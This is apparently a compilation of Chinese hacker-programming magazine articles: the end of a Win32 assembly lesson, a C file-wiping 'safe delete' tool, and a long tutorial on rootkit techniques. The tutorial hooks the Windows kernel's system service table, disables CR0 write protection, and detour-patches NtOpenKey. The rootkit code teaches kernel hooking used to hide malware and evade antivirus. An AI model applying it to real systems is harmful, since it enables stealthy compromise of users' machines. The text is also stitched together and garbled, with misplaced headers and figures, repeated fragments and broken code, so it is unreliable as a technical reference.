
来看一个非常重要的伪指令 `invoke`，这个指令用于调用 API。来看下面的代码段：

```asm
.code
start:
    xor eax, eax
    mov al, text
    mov bl, text+1
    mov cl, text+2
    mov dl, text+3
    add al, bl
    add al, cl
    add al, dl
    invoke wsprintf, \
           addr buffer, \
           addr szFmt, \
           eax
```

`.end` 指令紧跟的标识就是主程序入口点，类似 C/C++ 中的 `main` 函数。代码编写完毕后就来编译。编译前需要设置程序模式，右上角下拉列表包含 windows/console/dll/lib；本例属于 console 模式。debug 或 release 均可。然后点击编译链接（或快捷键），编译无误后点击运行。

本节内容到此结束。后续章节将继续讲解 win32 汇编相关知识，敬请关注。

# 编写简易安全删除工具

枯叶

通常情况下，我们对文件进行删除时，只是修改了该文件对应的文件系统结构中的某个标识，而并没有真正把文件进行清除。操作系统为了对磁盘进行管理，因此设计了一种功能，叫做文件系统。常见的文件系统有 NTFS、FAT32、ExFAT 等，这些都是 Windows 下常见的文件系统。文件系统对我们的文件按照一定的格式来存储、分配、管理。在逻辑上一个文件是连续的，但是在存储上可能却是分散的。

当一个文件进行删除时，为了提高效率，仅仅是修改文件对应的文件系统的某个标识。从真正意义上来讲，文件并没有被真正删除。我们做个简单的实验：在 E 盘下建立一个 `.txt` 的文本文档，文件名为 test，文本文档的内容为 12345，然后我们按住 shift 键，直接将它删掉而不进入回收站。这样，文件被删除掉了。打开 WinHex（我这的 WinHex 版本是 WinHex 14.1 SR-3），然后选择 WinHex 工具栏上的“编辑磁盘”按钮，如图1所示。

这样我们通过 WinHex 便打开了 E 盘，如图2所示。在图2中，上半部分我们看到的是磁盘 E 下的各个文件和文件夹列表，而下半部分是磁盘上的原始文件。我们在上半部分中找我们的 test.txt 文件，我这里在磁盘的最下方找到了该文件，如图3所示。

这就是我们删除的文件，然后我们在该文件上单击右键，在出来的关联菜单上选择“恢复/复制”菜单项，会让我们选择保存的路径。这里我选择桌面，选择确定按钮后可以看到桌面上多了一个 test.txt 文件，打开查看内容为 12345。

这样我们就完成了一次简单的数据恢复，而且恢复文件的内容也完好无损。我们如何来保证我们已删除数据的安全呢？我们首先对文件填 0，第二再对文件填 1，然后再对文件填写随机数，最后将文件的长度变成 0 字节。做完以上 4 步后，将文件删除掉，这样我们的文件即使被恢复，也无法得到我们的内容了。

我们写程序来完成以上步骤。我们不直接对文件进行操作，而是对文件的内存映射进行操作，这样有利于我们对整个文件进行填充 0 和 1。我们先看完整删除代码：

```c
BOOL SafeDelete(char *pszFile)
{
    BOOL bRet = FALSE;

    // 打开要删除的文件
    HANDLE hFile = CreateFile(pszFile,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE)
    {
        return bRet;
    }

    // 获取文件的大小
    DWORD dwFileSize = GetFileSize(hFile, NULL);

    // 创建文件映射
    HANDLE hMap = CreateFileMapping(hFile,
        NULL,
        PAGE_READWRITE,
        0, 0, 0);

    if (hMap == NULL)
    {
        CloseHandle(hFile);
        return bRet;
    }

    // 映射文件视图
    LPVOID lpBase = MapViewOfFile(hMap,
        FILE_MAP_ALL_ACCESS,
        0, 0, 0);

    if (lpBase == NULL)
    {
        CloseHandle(hMap);
        CloseHandle(hFile);
        return bRet;
    }

    // 填充0、填充1
    memset(lpBase, 0, dwFileSize);
    memset(lpBase, 1, dwFileSize);

    // 填充伪数据
    DWORD dwCur = 0;
    while (dwCur < dwFileSize)
    {
        DWORD dwTmp = GetTickCount() * ...;
        BYTE bByte = *((char*)((&dwTmp) + dwCur % 4));
        *((BYTE*)((DWORD)lpBase + dwCur)) = bByte;
        dwCur++;
    }

    UnmapViewOfFile(lpBase);
    CloseHandle(hMap);
    CloseHandle(hFile);

    // 将文件的长度缩短为0
    hFile = CreateFile(pszFile,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ,
        NULL,
        CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile != INVALID_HANDLE_VALUE)
    {
        CloseHandle(hFile);
    }

    // 删除文件
    DeleteFile(pszFile);

    bRet = TRUE;
    return bRet;
}

int main(int argc, char **argv)
{
    if (argc != 2)
    {
        printf("Usage: %s <path\\file>\r\n", argv[0]);
        return -1;
    }

    SafeDelete(argv[1]);

    return 0;
}
```

我们的这段代码是在 VC6 下进行生成的，我们直接使用 VC6 来进行源码调试。在 VC6 的菜单上选择“Project->Settings”，在出现的“Project settings”窗口中，选择“Debug”选项卡，在“Program arguments”处填写我们要删除的文件，我这里填写的是 `E:\\test.txt`，如图4所示。

将这些设置好以后，在第一句 `memset` 处按 F9 下断点，然后按 F5 使程序运行起来。程序会被断在我们下断的 `memset(lpBase, 0, dwFileSize);` 一句。该句的功能是将文件填充为 0，这里的 0 是二进制编码的 0。我们按一下 F10，让该代码执行一下，我们使用 WinHex 打开该文件来查看其内容，如图5所示。

填充完 0 和 1 后，就要进行随机填充了。我们不可能一句一句执行，因此我们在 while 循环后面的 `UnmapViewOfFile(lpBase)` 这句代码上按 F9 下断点，然后按 F5 让程序执行到断点处。再次使用 WinHex 查看我们的文件，如图7所示。

图4

图7

然后我们接着按 F10，直到运行到 `if (hFile != INVALID_HANDLE_VALUE)` 语句，然后在 E 盘查看该文件的大小，如图8所示。

图8

图5

接下来，再按一下 F10，让代码再执行一下，代码执行了 `memset(lpBase, 1, dwFileSize);` 这句。该句代码是对文件进行填 1，仍然用 WinHex 进行查看，如图6所示。

图6

到这里我们能直观调试的部分已经结束了，直接按 F5 让程序运行并结束，看 E 盘下的文件已经没有了。我们再使用 WinHex 的“磁盘编辑”模式打开 E 盘，找到被我们删除的 test.txt 文件，将其恢复到桌面，打开查看其内容，它的内容空空如也，什么也没有。

我们将这个文件复制到 `c:\windows` 目录下或者 `c:\windows\system32` 目录下，当我们要删除文件的时候，直接在命令行下输入“safedelete 文件名”就可以将文件安全地删除掉（我生成的文件名为 safedelete.exe）。

我们这里主要是介绍三种对文件的填充、长度清 0，并没有过多介绍更深层次的知识，比如文件系统格式。当我们使用我们自己的程序对文件进行删除后，仍然可以在 WinHex 看到被删除的文件名。如果要想在 WinHex 也无法看到文件名，就必须要了解文件系统格式，在文件系统格式中将文件对应的结构进行填 0 就可以了。

## Rootkit：深入Windows内核中挂钩系统服务的方法

唐炜

Rootkit 是存在于计算机操作系统内核中的恶意软件。因为运行在内核空间之中，所以其享有同内核代码一样的执行权限，可以隐藏进程、注册表和目录，检测网络活动以及键盘输入，改变操作系统的行为，甚至直接操作硬件设备。它以极其巧妙的方法躲避检测，杀毒软件对它毫无办法，它却有能力将杀毒软件“杀掉”。简而言之，rootkit 是无所不能的，自然，也是复杂的。

对于接触计算机不久的读者而言，操作系统内核简直是神秘的代名词。的确，操作系统是极复杂的软件，在著名的《人月神话》中也提到：“编译器的复杂度是批处理程序的三倍，操作系统复杂度是编译器的三倍”。实现一个原型操作系统已经是难事，而实现一个稳定可用的操作系统则更是难上加难。也因此，操作系统的总数屈指可数。在个人计算机平台上，众所周知，微软公司的 Windows 操作系统拥...有绝对的市场占有率，也正是因为这个原因，使得Windows系统具有很现实的研究价值。但是，Windows操作系统是不开放源代码的商业软件。所以，想要探究Windows系统的秘密，所面对的就只有不完全的系统文档、杂乱的研究资料，以及晦涩的汇编代码。

所幸的是，几年前微软公司释放了一份名为Windows Research Kernel（WRK）的、基于Windows XP以及Windows Server 2003系统的操作系统内核源代码，但是只对教学活动授权使用。国内有《Windows内核原理与实现》一书，结合这份“公开”的代码对操作系统的各种机制做了透彻的分析，是一部不可多得的好书。另有《Windows Internals》一书，截至本文写作之时，其英文最新版已更新到第六版。国内有此书第四版的翻译，名为《深入解析Windows操作系统》。操作系统内核虽极其复杂，但本文只探讨操作系统在执行系统调用时的相关情况，当然，是从Rootkit的角度来谈。

系统调用是操作系统向应用程序提供服务的接口。虽然完整的执行过程颇为复杂，但粗略地说，即应用程序运行在用户模式，首先设置包括系统调用号在内的一些参数的值，然后通过int指令或者sysenter指令进入内核模式。在中断处理代码执行完毕后，控制流进入了系统服务分发代码，这段代码依据系统调用号，从系统服务描述符表中取得系统服务函数的地址，并从应用程序参数中取得调用参数，然后实际调用此服务函数。服务返回后再回到用户模式，一次系统调用结束。

在本文中，我们将讨论两种对系统调用过程进行修改的方法：

- 其一，可定位到系统服务描述表，根据调用号找到函数地址所在的内存，并使用自定义函数替换。这样，分发代码再次取址并执行时，控制流就会进入到我们自定义的函数中去。
- 其二，先查表取得特定系统服务函数地址，然后去到函数代码所在内存，将其开头指令替换为一条跳转指令，跳转到自定义函数。

两种方法本质上不同，前者可视为“挂钩”，后者涉及代码字节补丁技术。

另外，一些读者可能知道kernel32.dll、user32.dll以及gdi32.dll三个动态链接库文件导出了大部分在MSDN可查的Win32 API（Application Programming Interface，应用程序编程接口）。实际上，有些API只是在头文件中定义的宏，有些函数虽在文件中实现了，但没有涉及系统调用。还有些函数真正需要调用内核功能才能完成，其执行过程要进一步调用位于ntdll.dll中的函数。

ntdll.dll中导出的一部分以Nt开头的函数（例如NtOpenKey）被称为Native API，但它们也只是系统调用的存根函数；控制流将在这些函数中从用户模式进入内核模式。而内核模块ntoskrnl.exe也导出了许多函数，其中以Nt开头的才是真正的系统服务函数。以内核中的NtOpenKey为例，它并不会被直接调用，而是通过系统调用分发代码被调用。

内核也导出一系列Zw开头的函数，作为内核中使用对应系统服务的存根函数。例如ZwOpenKey，调用它后控制流最终会进入NtOpenKey。以下本文皆以NtOpenKey函数为例。值得注意的是，我们讨论的是内核模块导出的NtOpenKey系统服务函数，而不是ntdll.dll导出的同名存根函数，这是容易混淆的地方。

这里给出ZwOpenKey的原型，其同NtOpenKey的原型是一致的：

```c
NTSTATUS ZwOpenKey(
    OUT PHANDLE            KeyHandle,
    IN ACCESS_MASK         DesiredAccess,
    IN POBJECT_ATTRIBUTES  ObjectAttributes
);
```

首先对NtOpenKey函数做出一些说明。其中ObjectAttributes具有以下结构：

```c
typedef struct _OBJECT_ATTRIBUTES {
    ULONG                   Length;
    HANDLE                  RootDirectory;
    PUNICODE_STRING         ObjectName;
    ULONG                   Attributes;
    PVOID                   SecurityDescriptor;
    PVOID                   SecurityQualityOfService;
} OBJECT_ATTRIBUTES, *POBJECT_ATTRIBUTES;
```

此结构中的ObjectName又具有如下结构：

```c
typedef struct _UNICODE_STRING {
    USHORT  Length;
    USHORT  MaximumLength;
    PWSTR   Buffer;
} UNICODE_STRING, *PUNICODE_STRING;
```

这个函数的功能就是将保存在ObjectAttributes->ObjectName->Buffer中的注册表键打开，并在KeyHandle中返回一个可以在接下来引用的句柄。以下，我们开始对系统服务描述符表的讨论。

## 一、系统服务描述符表挂钩

Windows操作系统内核模块ntoskrnl.exe导出了系统服务描述符表的地址，即符号KeServiceDescriptorTable。这个符号具有以下结构：

```c
typedef struct _ServiceDescriptorTableEntry {
    dword_t *ServiceTableBase;
    dword_t *ServicesCounterTableBase;
    dword_t NumberOfServices;
    byte_t  *ParamTableBase;
} ServiceDescriptorTableEntry;
```

在Windows的系统服务分发过程中，当分发代码将各个参数准备好之后，就会调用系统服务函数。首先对于系统服务函数NtOpenKey设置断点，当控制流中断的时候，我们发现栈上的返回地址是804df7ec，查看此地址处的代码，如下：

```asm
804df7ea ff d3            call ebx
804df7ec 8b e5            mov  esp, ebp

另外栈上的情况是：
kd> dd esp
f3d2cd54  804df7ec 024cff54 00000010 ...
```

结果中每行的第一个值是一个地址，下同。f3d2cd54表示的是当前esp的值，另外的三个值，则就依次对应于NtOpenKey的三个参数。

系统服务描述表挂钩方法的原理，就是定位到特定数组元素的地址，并修改位于其中的函数地址。在KeServiceDescriptorTable的成员中，第一个、第三个以及第四个成员的含义分别是系统服务函数表基地址、服务函数的个数，以及每个函数需要的参数长度。具体说来，我们在调用系统服务的时候会依据系统调用号，将整数乘4再加ServiceTableBase的值，就得到了包含特定系统服务函数地址的地址。调用号本身不能大于系统服务调用的总数，系统使用第三个成员进行此项检查。第一项是一个双字数组，而第四项则是一个字节数组。这个数组中保存了特定服务函数所需参数的字节长度。类似地，我们使用系统调用号加上ParamTableBase的值，就得到了需要的参数长度。这个值在从用户栈向内核栈复制参数的时候会被用到。至于被忽略的第二个成员，则是在使用调试版本内核的时候，作为每个系统调用发生次数的计数器数组，取得的信息用来考察系统的性能，在此略过不谈。

如何取得特定系统服务的调用号呢？系统调用号在不同版本的系统中不尽相同。在程序中保存几个特定内核版本的调用号码表是显而易见的选择，但实际上我们有更好的方法。读者已经知道，内核导出了一些以Zw开头的例程，作为系统调用的存根函数。通过反汇编这些函数，可以发现一个有趣的现象，那便是每个系统服务函数所对应的系统调用号都存在于其Zw系列存根函数的地址偏移1的地方。还是以ZwOpenKey函数为例，首先给出ZwOpenKey的汇编代码，如下：

```asm
nt!ZwOpenKey:
804de008 b8 77000000    mov eax,77h
804de00d 8d542404       lea edx,[esp+4]
804de011 9c             pushfd
804de012 6a08           push 8
804de014 e8...          call nt!KiSystemService
804de019 c20c00         ret 0Ch
```

以上的输出中，第一列是地址，第二列是机器码，第三列是汇编指令，下同。有趣的是第一行mov指令。其中，77h就是ZwOpenKey函数对应的系统服务函数NtOpenKey的调用号。如何取得这个数字呢？首先我们将机器码换一种格式显示，如下：

```asm
804de008 b8 77 00 00 00 8d 54 24 04 9c
804de012 6a 08 e8 18 16 00 00 c2 0c 00
```

函数的名字代表函数的地址，结合例子来说，符号ZwOpenKey实际上代表地址804de008。如果将其作为数据指针又怎么样呢？如果此时执行：

```asm
mov al, byte ptr [ZwOpenKey]
```

那么，al中就有了b8这个数据。如果读者确切理解了上面的汇编语句，那么对于下面的这条语句也就会心了：

```asm
mov eax, dword ptr [ZwOpenKey+1]
```

此时，eax中已经有了值00000077h了。这是个很巧妙的方法，从这里也可以看出来，所谓代码和数据并没有本质的区别，只是计算机如何认为，或者说我们令计算机如何认为这些二进制的数字而有所不同。经典的缓冲区溢出问题，其所利用的方法，从本质上来说，也是计算机无法真正区分数据和代码这一点。

在取得系统调用号后，下一步是要替换系统调用描述符表中的地址。《Rootkits——Windows内核的安全防护》一书中说系统服务描述符表所在的内存是只读的（见第77页），修改之前必须首先禁用内存写保护，也就是cr0寄存器中的第16位，使用以下的指令：

```asm
push eax
mov eax, cr0
and eax, 0fffeffffh
mov cr0, eax
pop eax
```

相反地，设置第16位就能重新启用内存写保护机制。在Intel的文档中对此也有描述，以下内容引自 *Intel 64 and IA-32 Architectures Software Developer’s Manual Volume 3 (3A & 3B): System Programming Guide*，这份资料是公开的。

> CR0.WP allows pages to be protected from supervisor-mode writes. If CR0.WP = 0, software operating with CPL < 3 (supervisor mode) can write to linear addresses with read-only access rights; if CR0.WP = 1, it cannot. (Software operating with CPL = 3 — user mode — cannot write to linear addresses with read-only access rights, regardless of the value of CR0.WP.)

以上文字大概是说：WP位，也就是cr0中的第16位，是允许或者不允许“超级访问者”对只读内存的写入。清除的时候允许，反之置位的时候就不允许了。

除此之外，此书给出的示例还在修改系统服务描述符表时候使用了MDL。MDL是操作系统提供的一种虚拟内存访问机制，本文不做介绍。这些都是出自该书中认为系统服务描述符是不可写的缘故。但是在测试的时候，笔者发现即使什么都不做，对系统调用的修改也成功了，亦即描述符表是可写的。笔者的实验环境是本机Windows 7 SP1与目标系统Windows XP SP3，目标系统运行在VirtualBox 4.1.14中。记得之前的测试中，目标系统运行在VMware某版本中时候情况类似。具体的原因亦不很清楚，或者是原书中的技术性错误，或者是我实验所用的操作系统有什么问题。这是在测试时的疑问。

至于替换的过程，则很简单，使用的汇编指令如下：

```asm
pushad
mov eax, [KeServiceDescriptorTable]
mov eax, [eax]
mov ebx, [ZwOpenKey]
inc ebx
```

```asm
mov ebx, [ebx]
mov ecx, NewNtOpenKey
xchg ecx, [eax+ebx*4]
mov [OldNtOpenKey], ecx
popad
```

对代码做一些解释。KeServiceDescriptorTable是外部符号，通过以下语句引入：

```c
__declspec(dllimport) ServiceDescriptorTableEntry KeServiceDescriptorTable;
```

结构的名字代表它的地址，对KeServiceDescriptorTable取值，取得ServiceTableBase的值，对ServiceTableBase取值，取得系统服务描述符表的地址，此时，eax中已经是指向描述符表的第一个条目了。接下来的三行取得了函数ZwOpenKey中包含的NtOpenKey系统调用号。然后，我们将钩子函数NewNtOpenKey的地址复制到ecx中，下一条指令交换两个地址的值。最后，将原始地址保存到一个变量中去。保存原始地址是有必要的，因为我们还需要再次调用原始的系统服务函数。至此，就完成了对于地址的替换。下面探讨钩子函数NewNtOpenKey的编写。

正确编写系统调用函数钩子是件复杂的事情，但是对于一个Rootkit来说，没有必要重新实现系统服务函数。钩子函数无非做两类事情，或者在调用函数之前检查函数参数，或者在调用函数之后过滤函数返回结果。首先解释第一种情况：钩子函数的执行流程如图1所示，在此我们实现一个Do-Nothing钩子函数，代码如下：

```c
NTSTATUS
NewNtOpenKey(
    OUT PHANDLE KeyHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes
){
    DbgPrint("NtOpenKey, %ws\n", ObjectAttributes->ObjectName->Buffer);
    __asm pop ebp
    __asm mov esp, ebp
    __asm jmp [OldNtOpenKey]
}
```

用来说明原理的函数总是很简单的，但是读者可以轻易地将其扩展成为具有更多功能的函数。这个函数只是简单地输出了注册表键的路径，而且不会返回，最后一句将跳转到原本的系统服务调用函数上，并由此函数返回。这里所谓的检查参数，只是简单地打印该参数的值。

可以将DbgPrint函数替换为任意其他的函数调用，以实现更加复杂的参数检查功能。当满足检查条件的时候，就可以对参数做出修改；或者直接返回错误。示例钩子函数编译后的代码如下：

```asm
NewNtOpenKey proc near
mov     edi, edi
push    ebp
mov     ebp, esp
mov     eax, [ebp+10h]
mov     ecx, [eax+8]
mov     edx, [ecx+4]
push    edx
push    offset Format ; "NtOpenKey, %wS\n"
call    DbgPrint
add     esp, 8
pop     ebp
mov     esp, ebp
jmp     OldNtOpenKey
NewNtOpenKey endp
```

```asm
mov     ecx, [eax+8]
mov     edx, [ecx+4]
push    edx
push    offset Format ; "NtOpenKey, %wS\n"
call    DbgPrint
add     esp, 8
jmp     OldNtOpenKey
```

开始的三条指令是C函数的标准序言。可以看到，编译器插入了C标准序言，序言的第二条指令执行了压栈操作。但是在控制流转移之前，却没有代码修正这个压栈操作，导致转移之后的代码看到的栈顶是这里的esp值，而本来栈顶的值应该是返回地址。这就造成了栈的破坏，在未来的某处必然导致执行错误。为了弥补编译器在这里犯下的错误，我们在控制流转移之前进行手工修正栈的操作，确保一切正常。以上是需要注意的地方。

对于过滤返回值的钩子函数，执行流程也很简单，如图2所示。即在控制流进行到钩子函数的时候，首先保存原始的调用参数，并修正位于栈上的返回地址，以便在系统调用返回的时候能再次获得执行权。当再次获得执行权的时候，根据已保存的调用参数，对结果进行过滤。最后由钩子函数返回系统调用分发代码。


这里需要读者关注的是C函数的编译方式。在C代码中，我们用内联汇编的方法插入了两条栈操作指令。这是必须的，也是重要的，因为如果不添加这两条指令，编译后的结果是这样的：

```asm
mov     edi, edi
push    ebp
mov     ebp, esp
mov     eax, [ebp+10h]
```

对系统服务描述符表更改的检测是极其简单的。举例来说，系统服务函数都是内核模块ntoskrnl.exe导出的，因此所有函数的地址都不可能越过ntoskrnl.exe的地址空间。比如在一个调试过程中，ntoskrnl.exe的地址空间是804d8000到806ee900。而系统服务函数地址的典型取值是：```asm
80569d48 805792c5 80596401
805729ac 8056f0cd 8056f2c6
805721b4 805a0042 8058acfe
```

```asm
nt!NtCreateMailslotFile:
805da708 6a24            push 24h
805da70a 68...           push offset ...
805da70f e8...           call nt!_SEH_prolog

nt!NtCreateFile:
8056df98 8bff            mov edi, edi
8056df9a 55              push ebp
8056df9b 8bec            mov ebp, esp
8056df9d 33c0            xor eax, eax
8056df9f 50              push eax
8056dfa0 50              push eax
8056dfa1 50              push eax
```

如果某检测程序要检查系统服务描述符表是否被修改，只需考察其中的每个地址都在系统内核模块的范围之内。这个时候，一个驱动程序的函数地址是很突兀的，所以直接挂钩系统服务描述符表的方法实际上难以跳脱基本检查。因此直接修改描述符表的方法并不是实用的，接下来讨论更强大的代码补丁技术。

## 二、代码字节补丁技术

这是一种称为 detour 的更改执行流程的方法，实际上是对内核系统服务函数进行代码字节补丁。所谓代码字节补丁，就是直接将机器码写入到特定的地址中去，实现一定的功能。在这里，我们是向系统服务函数开头处写入一句无条件跳转指令，跳转的目的地址就是我们的钩子函数，如此以更加隐秘的方法更改了执行流程。

汇编语言并不是最低级的语言，比它更低级的语言是机器码。看似相同的 JMP 汇编指令在汇编之后得到的机器码并不总是一致的。对于 JMP 指令，它的操作码可以为 EB、EA、E9、FF 等诸多情况。而 JMP 指令的操作数，可以是一个偏移量，也可以是一个内存地址。深入理解这点需要进一步了解关于汇编语言以及机器码的相关知识。

我们只需要知道：我们采用的跳转指令最后被汇编为长 6 字节，以 FF 25 两个字节开头，后跟一个 4 字节的地址。这个地址处保存有目标跳转地址；处理器从这个地址中取得跳转地址，然后开始执行。

一条无条件跳转指令编译后需要 6 个字节，所以要改掉目标处的 6 个字节。但是，Intel 的 x86 处理器指令是不等长的 CISC 体系。也就是说，当我们将 6 个字节写入目标地址，而如果这里原本的指令长 7 个字节，那么在覆盖之后，原始指令的最后 1 个字节就成为指令碎片，如果不加以处理，在执行时候就会引发处理器错误。

可以看到，三个函数的开头都是不一致的。在进行代码字节补丁的时候，我们不得不查看每个函数的开头字节，并针对不同函数以及不同的操作系统版本作出不同的处理。

如果目标函数的第一句指令恰好是 6 个字节长，这样的情况是简单的。首先我们考虑到要保存原来的 6 个字节，然后写入 jmp 指令。但是在给出的例子中，6 个字节的长度都跨越了多条指令，并都使之后的指令产生了指令碎片。这个时候，我们需要在插入 6 个字节的 jmp 指令后，再写入若干个 nop 指令。nop 指令什么都不做，占用一个字节，机器码是 90。结果是覆盖了目标函数处不等长的指令碎片，使其对齐到指令边界，这样就避免了执行错误指令导致的处理器错误。

对于 NtOpenKey 来说，我们需要插入 4 个 90 字节，结果字节对齐到第三条指令的开始，一共覆盖了 10 个字节。在覆盖之前，我们也要保存前十个字节的内容。在其他的例子中，需要插入的具体字节数还要依据某函数代码进行处理。以下依旧以 NtOpenKey 函数为例，首先给出进行代码字节补丁时的代码。

```asm
nt!NtOpenKey:
80569d48 68bc000000      push 0BCh
80569d4d 68...           push offset ...
80569d52 e8...           call nt!_SEH_prolog

; 然后是函数 NtCreateMailslotFile 的汇编指令开头部分
```

```asm
_asm {
  mov eax, NewNtOpenKey
  mov [eNewNtOpenKey2], eax

  mov eax, [KeServiceDescriptorTable]
  mov eax, [eax]
  mov ebx, [ZwOpenKey]
  inc edx
  mov ebx, [ebx]

  mov edi, offset CodeBytes
  mov esi, [eax+ebx*4]

  mov ecx, 10
  rep movsd

  mov edi, [eax+ebx*4]
  mov esi, L00
  mov ecx, 10
  rep movsb

  add [oldNtOpenKey], 10

  DriverObject->DriverUnload = OnUnload;
  return STATUS_SUCCESS;
  __asm{
L00: jmp [NewNtOpenKey2]
    nop
    nop
    nop
    nop
  }
}
```

首先看第一块内联汇编代码。第一部分将目标函数的地址保存在一个变量之中，这是通过 FF 25 操作码进行跳转所必须的，因为处理器认为操作数是一个地址，并试图在该地址处取值。下面的一段代码是计算 NtOpenKey 地址，计算结果是地址位于 eax+ebx*4 处。接下来我们将 NtOpenKey 函数的前十个字节拷贝到自定义的一个缓冲区中，其中 CodeBytes 是一个字节数组，长为 10。拷贝原始字节是重要的，因为我们还要执行这些代码，以确保原始系统服务函数在执行时的代码环境是一致的。然后一部分代码是将 FF 25 跳转指令移动到 NtOpenKey 函数的开头，完成字节代码补丁。

注意到这里的 L00 编号所对应的地址在下一部分的内联汇编中，而这段内联汇编却又在 return 语句之后。这是一个巧妙的方法，这意味着这段代码不会被执行，但是这样的代码可以被正确汇编并加载。加载之后，这部分代码就成为：

```asm
f8c254be ff252c56c2f8    jmp dword ptr [nt!NewNtOpenKey2 (f8c2562c)]
f8c254c4 90              nop
f8c254c5 90              nop
f8c254c6 90              nop
f8c254c7 90              nop
```

这就是我们要拷贝的代码字节。地址 f8c2562c 处有值 f8c25410，如下：

```text
kd> dd f8c2562c
f8c2562c  f8c25410 00000000 00000000 00000000
```

而值 f8c25410 恰好是钩子函数 NewNtOpenKey 的地址，当然，这不是巧合。如下：

```asm
kd> u f8c25410
nt!NewNtOpenKey:
f8c25410 8bff        mov edi, edi
f8c25412 55          push ebp
f8c25413 8bec        mov ebp, esp
f8c25415 8b4510      mov eax, dword ptr [ebp+10h]
```

实际进行了代码字节补丁之后，查看 CodeBytes 中的值：

```asm
nt!CodeBytes:
f8c25620 68bc000000    push 0BCh
f8c25625 68a8754e80    push offset nt!string "0x2f4" (804e75a8)
```

如读者所见，这些字节代码也能被正确汇编。然后查看 NtOpenKey 开头的代码：

```asm
80569d48 ff252c56c2f8  jmp dword ptr [nt!NewNtOpenKey2 (f8c2562c)]
80569d4e 90            nop
80569d4f 90            nop
80569d50 90            nop
80569d51 90            nop
80569d52 e8f49f67ff    call nt!SEH_prolog (804e344b)
```

确实也被正确修改了。此后，当有程序调用 NtOpenKey 时候，程序的控制流就被重定向到钩子函数。最后是对代码指针的修正，使其指向较原始地址偏移 10 的新地址。因为我们已经修改了前十个字节，所以直接从第十一个字节开始执行，这对应于原始系统服务函数的第三条指令。这个地址将在编写钩子函数的时候用到。

另外，现在微软的编译器编译出的函数代码都是以三句汇编指令开头的：

```asm
804e45c2 8bff   mov edi, edi
804e45c4 55     push ebp
804e45c5 8bec   mov ebp, esp
```

第一条指令确实没有别的意思，只是占个位置。这样的话，任何函数开头的部分就恰好是五个字节，可以用一条……

# 黑客编程

段内跳转、相对偏移的 jmp 指令安全地覆盖。但是在内核系统调用的代码却不总是这样。有读者可能想到，如果跳转指令也是五字节长的话，不就可以在一定程度上免去指令碎片的问题了吗？是的，跳转指令也可以是五个字节。那样的话，第一个字节作为操作码是 E9，然后的四个字节是一个双字，表示一个偏移量。简单地说，当前地址加上这个偏移量就是目标地址。现举一例：

```asm
f8c7d438  e9d3ffffff   jmp nt!NewZwOpenKey (f8c7d410)
```

如上，这条指令将要跳转到 f8c7d410。然后看机器码，将小端顺序的值转写后得到偏移量 FFFFFFD3，负值代表要向上跳转。现在我们来计算这条指令的地址与目标地址的距离，为 28h。取反之后是 FFFFFFD8。这个值同代码中的偏移量并不相等。读者可能会困惑，首先计算一下两个值的差值，为 5；然后看这条指令的长度，也为 5。这就是原因了。从这里可以看出来，计算偏移量还是比较麻烦的。下面我们讨论钩子的编写，重点是过滤执行结果的代码实现。

要编写正确的钩子函数，必须时刻注意栈的变化，这是成功的关键。第一个例子中，我们将要检查函数的调用参数。钩子函数执行流程如图 3 所示，我们首先考察在控制流通过系统调用地址进入系统调用并执行开头的 jmp 跳转到钩子函数的时候栈上的情况。只要记住，esp 是返回地址，esp+4 自然就是第一个参数，然后其他参数也就知道了。在做完检查工作后，首先必须执行原始函数被覆盖的那些指令，然后跳转回去，直接执行被覆盖指令之后的第一条指令。


具体说来，在例子中，当控制流执行到钩子函数的时候，栈的内容是：

```text
804df7ec 00e5f328 02000000 00e5f2c8
```

按照我们的分析，第一个值是系统调用的返回地址，其余三个值则是调用参数，对应 NtOpenKey 函数的原型，我们可以对应出来。

```text
00e5f328  OUT PHANDLE KeyHandle,
02000000  IN ACCESS_MASK DesiredAccess,
00e5f2c8  IN POBJECT_ATTRIBUTES ObjectAttributes
```

我们感兴趣的是第三个参数，一个指向 OBJECT_ATTRIBUTES 结构的指针，如下：

```text
kd> dt OBJECT_ATTRIBUTES 00e5f2c8
...
+0x008 ObjectName : 0x00e5f2e0 _UNICODE_STRING "\\REGISTRY\\USER\\S-1-5-21-...-500"
+0x00c Attributes : 0x640
+0x010 SecurityDescriptor : (null)
+0x014 SecurityQualityOfService : (null)
```

这个结构的第三个成员是一个指向 UNICODE_STRING。正如读者所见，其中包含的字符串是 `\REGISTRY\USER\S-1-5-21-854245398-436374069-1708537768-500`，这就是本次调用 NtOpenKey 要进行查询的注册表键。我们可以检查这个字符串是否包括某个特定的值，然后采取措施，比如返回一个错误，或者修改这个字符串导致下一步查询失败等等。这同上文在讨论修改描述符表时使用到的方法是一致的。

示例的钩子函数代码如下：

```c
NTSTATUS
NewNtOpenKey(
  OUT PHANDLE KeyHandle,
  IN ACCESS_MASK DesiredAccess,
  IN POBJECT_ATTRIBUTES ObjectAttributes
){
  DbgPrint("NtOpenKey, %wS\n", ObjectAttributes->ObjectName->Buffer);
  __asm{
    mov esp, ebp
    ...
  }
}
```

```asm
pop ebp
jmp [OldNtOpenKey]
```

钩子函数同上文中在讨论修改服务描述符表时候给出的检查参数钩子函数基本一样。整个函数不会返回，因为在地址 f8b7742c 处就跳回到原始的系统调用 NtOpenKey 中去了。而 NtOpenKey 的代码已经被我们修改为跳回来，于是控制流就会在这两个函数之间来回跳。因为笔者是在调试器中调试执行的，所以这样不会有什么问题，但是显然这样的代码不能正常工作。这里缺乏的关键代码是：执行原始系统服务函数开头的代码，并跳转到原始系统服务函数偏移 10 的地址处继续执行。这些代码将在最后的示例中给出。接下来我们讨论过滤结果的钩子函数的编写。

一个“裸”函数，这是微软编译器的特性。也就是说，没有标准 C 函数的标准序言。这时，如果打算在钩子函数里面使用 C 语言编写，就需要手工加入序言部分，然后就可以安全地使用 C 代码了。在执行完 C 代码之后，接下来必须首先执行旧代码，然后跳转。当系统服务函数返回之后，必须再次对栈进行修正，这次修正的原因是开始部分的代码拷贝了调用参数。

还是以 NtOpenKey 为例子进行具体分析。根据手册上的内容，在这个系统调用成功之后，其将在第一个参数内返回一个句柄。在下面的例子中，我们将截获这个句柄。首先给出钩子函数代码：


图4

